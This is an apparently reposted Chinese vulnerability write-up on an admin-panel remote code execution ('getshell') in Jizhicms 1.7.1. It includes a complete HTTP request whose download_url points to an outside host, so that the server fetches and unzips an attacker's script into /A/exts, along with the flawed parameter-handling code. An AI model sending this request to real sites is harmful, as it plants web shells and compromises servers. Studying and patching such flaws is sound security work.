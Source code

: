 Jizhicms 1.7.1 后台getshell
===========================

一、漏洞简介
------------

二、漏洞影响
------------

Jizhicms 1.7.1

三、复现过程
------------

    POST /admin.php/Plugins/update.html HTTP/1.1
    Host: www.0-sec.org:8091
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 80
    Origin: http://www.0-sec.org:8091
    Connection: close
    Referer: http://www.0-sec.org:8091/admin.php/Plugins/
    Cookie: PHPSESSID=tq79jo8omp5s72lq101noj48lq

    action=start-download&filepath=msgphone&download_url=http://www.0-sec.org/test/a.zip

攻击者可以控制download\_url传入参数的值，从而传入被压缩的可执行脚本，然后该压缩包会被解压并传入到特定位置，实现getshell所以只需要攻击者在自己控制的网站上压缩可执行脚本然后将url赋值给download\_url即可实现任意文件上传定位下函数位置，该函数位于/A/c/PluginsController.php下的update函数![1.png](resource/Jizhicms1.7.1后台getshell/media/rId24.png)传进来的值通过frparam函数处理之后变赋值给了remote\_url跟进到frparam函数函数中，该函数位于/FrPHP/lib/Controller.php中

    public function frparam($str=null, $int=0,$default = FALSE, $method = null){

            $data = $this->_data;
            if($str===null) return $data;
            if(!array_key_exists($str,$data)){
                return ($default===FALSE)?false:$default;
            }
            if($method===null){
                $value = $data[$str];
            }else{
                $method = strtolower($method);
                switch($method){
                    case 'get':
                    $value = $_GET[$str];
                    break;
                    case 'post':
                    $value = $_POST[$str];
                    break;
                    case 'cookie':
                    $value = $_COOKIE[$str];
                    break;
                }
            }
            return format_param($value,$int);
        }

该函数并没有对传入的值进行过滤，只是简单的从data数组里取数据然后继续回到update函数，在获取到了remote\_url的值后便进行了下载以及解压缩的操作![2.png](resource/Jizhicms1.7.1后台getshell/media/rId25.png)![3.png](resource/Jizhicms1.7.1后台getshell/media/rId26.png)最后解压到的文件夹为/A/exts![4.png](resource/Jizhicms1.7.1后台getshell/media/rId27.png)

参考链接
--------

> https://xz.aliyun.com/t/7775\#toc-3
